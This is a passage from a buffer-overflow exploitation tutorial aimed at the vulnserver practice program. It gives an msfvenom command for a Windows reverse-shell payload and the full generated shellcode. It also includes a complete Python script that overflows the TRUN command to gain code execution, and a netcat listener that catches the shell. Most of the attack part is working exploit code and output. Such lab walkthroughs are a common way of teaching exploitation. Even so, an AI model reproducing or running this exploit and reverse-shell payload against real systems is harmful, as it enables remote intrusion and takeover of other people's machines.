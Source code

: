 8. Generating Shell Code and getting Root

We will use `msfvenom` to create a payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

`-b` to specify which badchars we cannot use for our payload
Creating a reverse shell payload to connect back to us 
EXITFUNC=thread just makes our exploit a bit more stable

`-f` filetype for exporting our file in C

We get:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xbf\x2c\xe1\x5b\x01\xda\xc8\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x78\x12\x83\xe8\xfc\x03\x54\xef\xb9\xf4\x58\x07\xbf"
"\xf7\xa0\xd8\xa0\x7e\x45\xe9\xe0\xe5\x0e\x5a\xd1\x6e\x42\x57"
"\x9a\x23\x76\xec\xee\xeb\x79\x45\x44\xca\xb4\x56\xf5\x2e\xd7"
"\xd4\x04\x63\x37\xe4\xc6\x76\x36\x21\x3a\x7a\x6a\xfa\x30\x29"
"\x9a\x8f\x0d\xf2\x11\xc3\x80\x72\xc6\x94\xa3\x53\x59\xae\xfd"
"\x73\x58\x63\x76\x3a\x42\x60\xb3\xf4\xf9\x52\x4f\x07\x2b\xab"
"\xb0\xa4\x12\x03\x43\xb4\x53\xa4\xbc\xc3\xad\xd6\x41\xd4\x6a"
"\xa4\x9d\x51\x68\x0e\x55\xc1\x54\xae\xba\x94\x1f\xbc\x77\xd2"
"\x47\xa1\x86\x37\xfc\xdd\x03\xb6\xd2\x57\x57\x9d\xf6\x3c\x03"
"\xbc\xaf\x98\xe2\xc1\xaf\x42\x5a\x64\xa4\x6f\x8f\x15\xe7\xe7"
"\x7c\x14\x17\xf8\xea\x2f\x64\xca\xb5\x9b\xe2\x66\x3d\x02\xf5"
"\x89\x14\xf2\x69\x74\x97\x03\xa0\xb3\xc3\x53\xda\x12\x6c\x38"
"\x1a\x9a\xb9\xef\x4a\x34\x12\x50\x3a\xf4\xc2\x38\x50\xfb\x3d"
"\x58\x5b\xd1\x55\xf3\xa6\xb2\x53\x04\xaa\x46\x0c\x06\xaa\x57"
"\x90\x8f\x4c\x3d\x38\xc6\xc7\xaa\xa1\x43\x93\x4b\x2d\x5e\xde"
"\x4c\xa5\x6d\x1f\x02\x4e\x1b\x33\xf3\xbe\x56\x69\x52\xc0\x4c"
"\x05\x38\x53\x0b\xd5\x37\x48\x84\x82\x10\xbe\xdd\x46\x8d\x99"
"\x77\x74\x4c\x7f\xbf\x3c\x8b\xbc\x3e\xbd\x5e\xf8\x64\xad\xa6"
"\x01\x21\x99\x76\x54\xff\x77\x31\x0e\xb1\x21\xeb\xfd\x1b\xa5"
"\x6a\xce\x9b\xb3\x72\x1b\x6a\x5b\xc2\xf2\x2b\x64\xeb\x92\xbb"
"\x1d\x11\x03\x43\xf4\x91\x23\xa6\xdc\xef\xcb\x7f\xb5\x4d\x96"
"\x7f\x60\x91\xaf\x03\x80\x6a\x54\x1b\xe1\x6f\x10\x9b\x1a\x02"
"\x09\x4e\x1c\xb1\x2a\x5b";
```
Always note our payload size. Here 351 bytes. Useful for exploit development.


We add No Operation (NoOp) padding: "\x90" * 32, adding a bit of padding space between our buffer and the overflow. If we didn't have this, something could interfere and not let our exploit code run 

Our new, final script:
```
#!/usr/bin/python
import sys, socket

overflow = (
"\xbf\x2c\xe1\x5b\x01\xda\xc8\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x78\x12\x83\xe8\xfc\x03\x54\xef\xb9\xf4\x58\x07\xbf"
"\xf7\xa0\xd8\xa0\x7e\x45\xe9\xe0\xe5\x0e\x5a\xd1\x6e\x42\x57"
"\x9a\x23\x76\xec\xee\xeb\x79\x45\x44\xca\xb4\x56\xf5\x2e\xd7"
"\xd4\x04\x63\x37\xe4\xc6\x76\x36\x21\x3a\x7a\x6a\xfa\x30\x29"
"\x9a\x8f\x0d\xf2\x11\xc3\x80\x72\xc6\x94\xa3\x53\x59\xae\xfd"
"\x73\x58\x63\x76\x3a\x42\x60\xb3\xf4\xf9\x52\x4f\x07\x2b\xab"
"\xb0\xa4\x12\x03\x43\xb4\x53\xa4\xbc\xc3\xad\xd6\x41\xd4\x6a"
"\xa4\x9d\x51\x68\x0e\x55\xc1\x54\xae\xba\x94\x1f\xbc\x77\xd2"
"\x47\xa1\x86\x37\xfc\xdd\x03\xb6\xd2\x57\x57\x9d\xf6\x3c\x03"
"\xbc\xaf\x98\xe2\xc1\xaf\x42\x5a\x64\xa4\x6f\x8f\x15\xe7\xe7"
"\x7c\x14\x17\xf8\xea\x2f\x64\xca\xb5\x9b\xe2\x66\x3d\x02\xf5"
"\x89\x14\xf2\x69\x74\x97\x03\xa0\xb3\xc3\x53\xda\x12\x6c\x38"
"\x1a\x9a\xb9\xef\x4a\x34\x12\x50\x3a\xf4\xc2\x38\x50\xfb\x3d"
"\x58\x5b\xd1\x55\xf3\xa6\xb2\x53\x04\xaa\x46\x0c\x06\xaa\x57"
"\x90\x8f\x4c\x3d\x38\xc6\xc7\xaa\xa1\x43\x93\x4b\x2d\x5e\xde"
"\x4c\xa5\x6d\x1f\x02\x4e\x1b\x33\xf3\xbe\x56\x69\x52\xc0\x4c"
"\x05\x38\x53\x0b\xd5\x37\x48\x84\x82\x10\xbe\xdd\x46\x8d\x99"
"\x77\x74\x4c\x7f\xbf\x3c\x8b\xbc\x3e\xbd\x5e\xf8\x64\xad\xa6"
"\x01\x21\x99\x76\x54\xff\x77\x31\x0e\xb1\x21\xeb\xfd\x1b\xa5"
"\x6a\xce\x9b\xb3\x72\x1b\x6a\x5b\xc2\xf2\x2b\x64\xeb\x92\xbb"
"\x1d\x11\x03\x43\xf4\x91\x23\xa6\xdc\xef\xcb\x7f\xb5\x4d\x96"
"\x7f\x60\x91\xaf\x03\x80\x6a\x54\x1b\xe1\x6f\x10\x9b\x1a\x02"
"\x09\x4e\x1c\xb1\x2a\x5b")


# The "vulnerable" return address we found was 625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
		
```

If we have limited space especially, might need to adjust the padding 

We will have to start a listener. Netcat:

```
nc -nvlp 4444
```

Run vulnserver and then run our exploit
GOT ROOT

